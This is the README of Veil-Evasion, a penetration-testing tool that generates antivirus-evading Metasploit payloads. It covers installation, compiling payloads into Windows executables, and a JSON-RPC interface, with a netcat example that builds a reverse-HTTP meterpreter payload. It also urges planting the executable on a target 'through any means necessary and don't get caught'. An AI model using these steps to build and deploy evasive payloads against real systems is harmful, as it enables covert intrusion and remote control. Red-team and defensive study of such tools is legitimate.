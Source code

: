 # Veil-Evasion

Veil-Evasion is a tool designed to generate metasploit payloads that bypass common anti-virus solutions.

NOTE: `./setup/setup.sh` should be re-run on every major version update. If you receive any major errors on running Veil-Evasion, first try re-running this script to install any additional packages and update the common configuration file.

Veil-Evasion is currently under active support by @ChrisTruncer, @TheMightyShiv, @HarmJ0y.

Thanks to:
* @jasonjfrank
* @mjmaley
* @davidpmcguire

## Software Requirements:

### Linux

1.  Use Kali (x86) and all dependencies are pre-installed

**or**

1.  Install Python 2.7
2.  Install PyCrypto >= 2.3

### Windows (for Py2Exe compilation)

1.  Python (tested with x86 - http://www.python.org/download/releases/2.7/)
2.  Py2Exe (http://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)
3.  PyCrypto (http://www.voidspace.org.uk/python/modules.shtml)
4.  PyWin32 (http://sourceforge.net/projects/pywin32/files/pywin32/Build%20218/pywin32-218.win32-py2.7.exe/download)

## Setup (tl;dr)

Run sudo setup.sh -c on Kali x86.

Install Python 2.7, Py2Exe, PyCrypto, and PyWin32 on a Windows computer (for Py2Exe).

### Quick Install

```bash
sudo apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd veil-Evasion/
cd setup
sudo setup.sh -c
```

### Regenerating Config

Most of the time the config file at `/etc/veil/settings.py` will not need to be rebuilt but in some cases you might be prompted to do so. The file is generated by `config/update.py`.

It is important that you are in the config/ directory before executing update.py. If you are not, settings.py will be incorrect and when you launch Veil-Evasion you will see the following.

```bash
    Main Menu

            0 payloads loaded
```

Don't panic. Enter the config/ dir and re-run update.py.

## Description

Veil-Evasion was designed to run on Kali Linux, but should function on any system capable of executing python scripts.  Simply call Veil-Evasion from the command line, and follow the menu to generate a payload.  Upon creating the payload, Veil-Evasion will ask if you would like the payload file to be converted into an executable by Pyinstaller or Py2Exe.

If using Pyinstaller, Veil-Evasion will convert your payload into an executable within Kali.

If using Py2Exe, Veil-Evasion will create three files:

* payload.py - The payload file
* setup.py - Required file for Py2Exe
* runme.bat - Batch script for compiling the payload into a Windows executable

Move all three files onto your Windows machine with Python installed.  All three files should be placed in the root of the directory Python was installed to (likely C:\Python27).  Run the batch script to convert the Python script into an executable format.

Place the executable file on your target machine through any means necessary and don't get caught!

## RPC Server
On the listener side, run:

`./Veil-Evasion --rpc`

This will start a listener on port 4242.

On the client side, you will need to run a client program. This can be a custom script or can be as simple as Netcat. The RPC server implements JSON-RPC. This is a good reference for interpreting requests and responses for JSON-RPC: http://json-rpc.org/wiki/specification

The RPC request format is as follows:

```
    method="version"            -   return the current Veil-Evasion version number
    method="payloads"           -   return all the currently loaded payloads
    method="payload_options"
        params="payload_name"   -   return the options for the specified payload
    method="generate"
        params=["payload=X",   
                "outputbase=Y"
                "overwrite=Z",
                "msfvenom=...",
                "LHOST=blah]     -   generate the specified payload with the given options and returns the path of the generated executable
```

This is a simple example of working with Veil-Evasion using Netcat:


```
root@kali:~# nc 127.0.0.1 4242
{"method":"version","params":[],"id":0}
```

And the server response:


```
{"id":0,"result":"2.21.4","error":null}

```

An example of a client program can be found here: http://github.com/miligulmohar/python-symmetric-jsonrpc/blob/master/examples/client.py

Note: The port for Veil-Evasion is 4242. This must be changed in client.py in order to work with it.

In order to generate a payload, *ALL* parameters must be included:

* payload - which payload to generate
* outputbase - the name to save the payload as
* LHOST - the ip address for the listening host
* LPORT - the port for the listening host
* pwnstaller - True to package python programs into an executable. False if not. Ignored for other payloads

This is a good reference to understand whether or not in use pwnstaller: http://www.verisgroup.com/blog/2014/05/07/pwnstaller-and-the-veil-framework/

An example of generating a payload:

```
root@kali:~# nc 127.0.0.1 4242
{"method":"generate","params":["payload=c/meterpreter/rev_http","outputbase=payloadName","LHOST=192.168.1.11","LPORT=2121","pwnstaller=False"],"id":1"}
```

And the server response:

```
{"id":8,"result":"/usr/share/veil-output/compiled/payloadName.exe","error":null}
```

Note: If there is no id specified in the request, Veil-Evasion will shut down. That being said, you can make as many valid requests as you would like until Veil-Evasion shuts down.

To shut down the RPC server run:

`./Veil-Evasion --rpcshutdown`
